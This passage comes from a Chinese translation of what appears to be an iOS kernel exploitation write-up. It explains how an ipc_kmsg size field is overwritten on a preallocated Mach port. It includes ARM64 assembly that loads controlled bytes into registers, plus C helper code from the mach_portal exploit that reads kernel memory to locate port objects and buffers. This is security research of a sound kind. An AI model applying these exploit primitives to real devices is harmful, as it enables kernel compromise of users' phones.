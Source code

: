 ```
ldp x22, x23, [x30, 0xb0]
ldp x24, x25, [x30, 0xc0]
ldp x26, x27, [x30, 0xd0]
ldp x28, x29, [x30, 0xe0]
brk 0
.align  3
```

该函数接收一个指向240字节缓冲区的指针作为第一个参数，然后将该缓冲区的值放到前30个ARM64通用寄存器中，以便当通过brk 0触发软件中断时，内核发送的异常消息能够以相同的顺序存放来自输入缓冲区的字节。

我们现在已经有了一种获取将被发送到预分配端口的消息中的受控数据的方法，但是我们应该用什么值覆盖ikm_size，才能使消息的受控部分与后面堆对象的开始重叠呢？ 通过静态方式可能做到这一点，但是如果使用内核调试器考察发送的情况的话，事情会更简单。然而，iOS只能运行在特定的硬件上，并且它们也没有提供内核调试方面的支持。

<br>

**打造自己的内核调试器（使用printfs和hexdumps）**

通常调试器有两个主要功能：断点和内存读写。实现断点非常麻烦，但是我们仍然可以使用内核内存访问来打造一个内核调试环境。

这里需要处理引导问题；我们需要一个内核漏洞利用，让我们进行内核内存访问，以便开发我们的内核漏洞利用代码来提供内核内存访问功能！在12月份，我发布了mach_portal iOS内核漏洞利用代码，提供了内核内存读/写能力，其中的一些内核内省函数还允许您按名称查找进程任务结构和查找mach端口对象。我们可以转储Mach端口的kobject指针。

这个新漏洞的第一个版本是在mach_portal xcode项目中开发的，所以我可以重用所有的代码。一切就绪后，我会将其从iOS 10.1.1移植到iOS 10.2。

在mach_portal里面，我可以找到一个预先分配的端口缓冲区的地址，如下所示： 



```
// allocate an ipc_kmsg:
 kern_return_t err;
 mach_port_qos_t qos = {0};
 qos.prealloc = 1;
 qos.len = size;
 mach_port_name_t name = MACH_PORT_NULL;
 err = mach_port_allocate_full(mach_task_self(),
                               MACH_PORT_RIGHT_RECEIVE,
                               MACH_PORT_NULL,
                               &amp;qos,
                               &amp;name);
 uint64_t port = get_port(name);
 uint64_t prealloc_buf = rk64(port+0x88);
 printf("0x%016llx,n", prealloc_buf);
get_port是mach_portal漏洞利用代码的一部分，其定义如下： 
uint64_t get_port(mach_port_name_t port_name){
  return proc_port_name_to_port_ptr(our_proc, port_name);
}
uint64_t proc_port_name_to_port_ptr(uint64_t proc, mach_port_name_t port_name) {
  uint64_t ports = get_proc_ipc_table(proc);
  uint32_t port_index = port_name &gt;&gt; 8;
  uint64_t port = rk64(ports + (0x18*port_index)); //ie_object
  return port;
}
uint64_t get_proc_ipc_table(uint64_t proc) {
  uint64_t task_t = rk64(proc + struct_proc_task_offset);
  uint64_t itk_space = rk64(task_t + struct_task_itk_space_offset);
  uint64_t is_table = rk64(itk_space + struct_ipc_space_is_table_offset);
  return is_table;
}
```
